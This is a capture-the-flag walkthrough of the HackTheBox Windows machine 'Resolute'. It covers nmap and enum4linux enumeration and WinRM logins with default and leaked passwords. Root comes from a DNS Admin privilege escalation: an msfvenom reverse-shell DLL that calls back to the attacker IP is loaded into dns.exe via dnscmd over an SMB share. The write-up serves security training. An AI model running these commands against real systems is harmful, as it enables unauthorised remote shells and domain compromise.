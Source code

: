 # Resolute

![](images/info.PNG)

__Task__: Find [user.txt](#user-flag) and [root.txt](#root-flag)

### Penetration Methodologies

__Scanning__

- nmap

__Enumeration__

- enum4linux

__Exploitation__

- Weak password policy

__Priv Esc__

- DNS Admin Privilege Escalation 

***

This is my guide to the HackTheBox Windows machine _Resolute_.

## User Flag

First thing’s first. I run my `nmap` scan. _Resolute_ is running a ton of services, all pointing to a potential Active Directory DC. 

- __sC__: Enable common scripts

- __sV__: version and service on the port 

- __O__: remote OS detection using fingerprinting

```
# Nmap 7.80 scan initiated Sat May 23 14:52:02 2020 as: nmap -sC -sV -O -oA scan169 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.059s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-05-23 20:02:44Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/23%Time=5EC97EF0%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/23%OT=53%CT=1%CU=44091%PV=Y%DS=2%DC=I%G=Y%TM=5EC97F8
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=
OS:A)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M5
OS:4DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
OS:0)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h30m33s, deviation: 4h02m31s, median: 10m32s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-05-23T13:03:15-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-23T20:03:16
|_  start_date: 2020-05-23T18:24:50

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 23 14:54:54 2020 -- 1 IP address (1 host up) scanned in 172.73 seconds
```

After the results come back, I also run a full port scan to see if any additional ports may be open. 

```bash
$ sudo nmap -sC -sV -O -p- -oA full169 10.10.10.169
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The port that I make note of from the full scan is 5985. This tells me that the box is running `WinRM 2.0 (Microsoft Windows Remote Management)`. Once I find some credentials, I may be able to gain a foothold through this service.

Next, I run `enum4linux`, a tool primarily used to enumerate Windows or Samba systems.

```bash
$ enum4linux -U -o 10.10.10.169
```

![](images/enum.png)

It looks like an admin mistakenly left a default password in the description on a user account. Odds are, one of these users may not have changed their default password. 

Using `evil-winrm`, a Windows Remote Management tool for pentesting, I try each username with the password. Eventually, I successfully log in with melanie, attaining a foothold on _Resolute_.

```bash
$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'
```

![](images/foothold.png)

Once in, I find the user flag on melanie’s desktop.

![](images/user-flag.png)

## Root Flag

Next, I need to escalate privileges. I start looking around the file system, seeing if anything stands out. I soon find a PowerShell log within the directory `C:\PSTranscripts\20191203` that may contain something of interest.

```powershell
> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Within this transcript is a password for the user ryan. Additionally, the password may imply that ryan has some level of administrative privileges.

![](images/passwd.png)

Using my newly attained credentials, I log in as Ryan using `evil-winrm`. 

```bash
$ evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```

On ryan’s desktop there is a note that indicates that all changes are reverted within a minute. I’ll keep that in mind as I continue.

![](images/note.png)

Next, I want to see if ryan has any unique privileges. I use `net user` and can see that ryan is in the `Contractors` group. This indicates to me that he may have administrator rights. Because _Resolute_ also has DNS enabled, I can assume that ryan is also a DNS Admin or has write privileges to the DNS server object.

```powershell
> net user ryan /domain
Global Group memberships     *Domain Users         *Contractors
```

[This article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) has a great write-up on how to abuse a DNS Admin account to escalate privileges. For brevity, I will inject a poisoned DLL into the DNS executable, which will create a SYSTEM-level shell when the DNS process is restarted.

Using msfvenom, I will create the malicious DLL payload.

```bash
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.234 LPORT=4444 -f dll > privesc.dll
```

I set up a listener as well, in preparation for the reverse shell.

```bash
$ nc -lvnp 4444
```

Now I need to get my payload onto the machine. I choose to host the payload on my machine using `smbserver.py` from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
$ sudo python smbserver.py share ./
```

On the _Resolute_ box, I run the command to retrieve my poisoned DLL and inject it into `dns.exe`.

```powershell
> dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.234\share\privesc.dll
```

Finally, I restart DNS. This needs to be done relatively quickly to avoid changes being reverted.

```powershell
> sc.exe stop dns
> sc.exe start dns
```

![](images/dns-restart.png)

My reverse shell connects and I confirm that I have successfully rooted the box!

![](images/root.png)

On the Administrator's desktop I find the final flag.

![](images/root-flag.png)


***

Overall, I really enjoyed this box. Being one of my first Windows machines, I learned a lot about Windows enumeration, and it was beneficial seeing this sort of privilege escalation. I also thought the use of poor password policies and account management was a realistic way to gain unauthorized access. 

### Rankings:

__Real-life Applicable__: 8/10

__Common Vulnerabilities__: 8/10

__Enumeration__: 6/10
